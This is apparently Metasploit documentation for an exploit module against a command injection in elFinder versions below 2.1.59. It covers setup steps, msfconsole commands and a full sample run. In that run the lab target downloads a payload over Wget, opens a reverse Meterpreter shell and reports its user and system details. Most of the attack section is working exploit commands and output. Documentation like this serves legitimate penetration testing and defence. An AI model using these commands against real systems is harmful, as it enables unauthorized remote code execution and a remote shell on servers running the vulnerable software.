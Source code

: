 ## Vulnerable Application

elFinder versions below 2.1.59 are vulnerable to a command injection
vulnerability via its archive functionality.

When creating a new zip archive, the `name` parameter is sanitized
with the `escapeshellarg()` php function and then passed to the
`zip` utility. Despite the sanitization, supplying the `-TmTT`
argument as part of the `name` parameter is still permitted and
enables the execution of arbitrary commands as the `www-data` user.

Tested on elFinder versions `2.1.57`, `2.1.58`, and `2.1.59`.

### Installation Steps

1. Set up a php server
2. Download a vulnerable version of the elFinder [software](https://github.com/Studio-42/elFinder/archive/2.1.58.zip)
3. Rename the minimal connector file: `mv /php/connector.minimal.php-dist /php/connector.minimal.php`
4. Access the software at `http://<host>/elfinder.html`

Additional installation methods can be found [here](https://github.com/Studio-42/elFinder#installation).

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/elfinder_archive_cmd_injection`
4. Do: `set RHOST <ip>`
5. Do: `set LHOST <ip>`
6. Do: `run`
7. You should get a meterpreter session.

## Scenarios

### elFinder `v2.1.58` on Ubuntu 20.04.1

```
msf6 > use exploit/linux/http/elfinder_archive_cmd_injection
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/elfinder_archive_cmd_injection) > set rhost 192.168.140.128
rhost => 192.168.140.128
msf6 exploit(linux/http/elfinder_archive_cmd_injection) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(linux/http/elfinder_archive_cmd_injection) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. elFinder running version 2.1.58
[*] Uploading file LojGHIOkAW.txt to elFinder
[+] Text file was successfully uploaded!
[*] Attempting to create archive fMuuXCkA.zip
[+] Archive was successfully created!
[*] Using URL: http://0.0.0.0:8080/OR3Kz5kxLZp
[*] Local IP: http://192.168.1.199:8080/OR3Kz5kxLZp
[*] Client 192.168.140.128 (Wget/1.20.3 (linux-gnu)) requested /OR3Kz5kxLZp
[*] Sending payload to 192.168.140.128 (Wget/1.20.3 (linux-gnu))
[*] Command Stager progress -  62.50% done (75/120 bytes)
[*] Command Stager progress -  89.17% done (107/120 bytes)
[*] Sending stage (984904 bytes) to 192.168.140.128
[+] Deleted LojGHIOkAW.txt
[+] Deleted fMuuXCkA.zip
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.128:39822) at 2021-09-09 16:10:06 -0500
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: www-data @ ubuntu (uid=33, gid=33, euid=33, egid=33)
meterpreter > sysinfo
Computer     : 192.168.140.128
OS           : Ubuntu 20.04 (Linux 5.11.0-27-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

